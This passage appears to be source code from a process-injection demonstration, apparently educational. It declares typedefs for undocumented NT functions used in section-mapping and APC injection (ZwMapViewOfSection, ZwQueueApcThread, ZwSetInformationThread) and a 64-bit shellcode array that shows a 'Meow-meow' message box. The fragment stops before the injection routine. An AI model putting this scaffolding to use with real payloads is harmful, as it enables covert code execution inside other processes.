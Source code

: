 ```cpp
  PVOID*            BaseAddress,
  ULONG_PTR         ZeroBits,
  SIZE_T            CommitSize,
  PLARGE_INTEGER    SectionOffset,
  PSIZE_T           ViewSize,
  DWORD             InheritDisposition,
  ULONG             AllocationType,
  ULONG             Win32Protect
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE            ProcessHandle,
  PVOID             BaseAddress
);

// ZwClose
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);

// ZwQueueApcThread
typedef NTSTATUS(NTAPI* pZwQueueApcThread)(
  IN HANDLE               ThreadHandle,
  IN PIO_APC_ROUTINE      ApcRoutine,
  IN PVOID                ApcRoutineContext OPTIONAL,
  IN PIO_STATUS_BLOCK     ApcStatusBlock OPTIONAL,
  IN ULONG                ApcReserved OPTIONAL
);

// ZwSetInformationThread
typedef NTSTATUS(NTAPI* pZwSetInformationThread)(
  _In_ HANDLE             ThreadHandle,
  _In_ THREADINFOCLASS    ThreadInformationClass,
  _In_ PVOID              ThreadInformation,
  _In_ ULONG              ThreadInformationLength
);

unsigned char my_payload[] = 
  
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
```
